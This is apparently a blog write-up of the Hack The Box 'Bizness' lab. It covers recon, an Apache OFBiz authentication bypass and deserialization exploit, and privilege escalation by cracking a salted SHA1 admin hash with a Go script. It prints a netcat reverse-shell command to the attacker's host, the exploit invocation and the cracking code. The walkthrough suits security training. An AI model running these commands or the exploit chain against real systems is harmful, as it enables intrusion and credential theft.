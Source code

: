 ```yaml
---
title:  HTB Bizness Writeup
published: 2024-05-27
description: 'Writeup of "Bizness" from Hack The Box'
image: './icon.png'
tags: [CVE-2023-49070,CVE-2023-51467, Writeup, Go, Apache OFBiz, Hash cracking, SHA1, HTB, Java Deserialization, ysoserial]
category: 'CTF writeup'
draft: false
---
```


# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
```bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:
![Bizness main page](./website.png)

#### Directory brute force
I immediately have ran _ffuf_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ -w seclists/Discovery/Web-Content/common.txt -fs 0
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:
![Apache ofBiz error](./control.png)


## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```
![User flag](./user.png)

:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escalation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success. Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 

![strings command](./strings.png)

## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:
![Password](./hash_crack.png)

:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`

![Root](./root.png)

With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
